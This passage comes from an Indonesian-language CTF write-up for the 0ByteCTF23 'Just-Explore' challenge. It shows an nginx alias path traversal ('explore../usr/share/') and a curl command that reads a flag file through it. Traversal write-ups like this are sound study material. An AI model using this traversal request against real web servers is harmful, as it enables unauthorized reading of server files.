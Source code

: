 [Reference](https://labs.hakaioffsec.com/nginx-alias-traversal/)

<br/>

Tinggal kita cari flagnya saja, ada di [http://0x7e7ctf.zerobyte.me:49723/explore../usr/share/](http://0x7e7ctf.zerobyte.me:49723/explore../usr/share/)

<br>
<div style="text-align:center">
<img src="https://raw.githubusercontent.com/nopedawn/CTF/main/0ByteCTF23/Just-Explore/img/6.png">
</div>
<br>

```bash {title="bash"}
curl http://0x7e7ctf.zerobyte.me:49723/explore../usr/share/flag.txt
```

<br>
<div style="text-align:center">
<img src="https://raw.githubusercontent.com/nopedawn/CTF/main/0ByteCTF23/Just-Explore/img/7.png">
</div>
<br>

<br/>

<details><summary>Flag</summary></details>